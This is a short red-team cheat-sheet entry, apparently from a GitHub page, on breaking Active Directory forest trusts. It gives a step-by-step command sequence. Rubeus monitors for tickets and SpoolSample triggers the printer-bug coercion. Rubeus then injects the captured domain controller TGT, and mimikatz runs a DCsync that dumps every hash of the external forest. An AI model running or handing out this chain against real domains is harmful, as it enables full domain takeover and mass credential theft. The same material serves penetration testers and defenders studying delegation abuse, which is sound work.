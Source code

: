 ### Breaking Forest Trusts

*WUT IS DIS?: \
TL;DR \
If we have a bidirectional trust with an external forest and we manage to compromise a machine on the local forest that has enabled unconstrained delegation (DCs have this by default), we can use the printerbug to force the DC of the external forest's root domain to authenticate to us. Then we can capture it's TGT, inject it into memory and DCsync to dump it's hashes, giving ous complete access over the whole forest.*

Tools we are going to use:
- [Rubeus](https://github.com/GhostPack/Rubeus)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Mimikatz](https://github.com/gentilkiwi/mimikatz)

Exploitation example:
```
#Start monitoring for TGTs with rubeus:
Rubeus.exe monitor /interval:5 /filteruser:target-dc$

#Execute the printerbug to trigger the force authentication of the target DC to our machine
SpoolSample.exe target-dc$.external.forest.local dc.compromised.domain.local

#Get the base64 captured TGT from Rubeus and inject it into memory:
Rubeus.exe ptt /ticket:<Base64ValueofCapturedTicket>

#Dump the hashes of the target domain using mimikatz:
lsadump::dcsync /domain:external.forest.local /all 
```

Detailed Articles:
- [Not A Security Boundary: Breaking Forest Trusts](https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/)
- [Hunting in Active Directory: Unconstrained Delegation & Forests Trusts](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
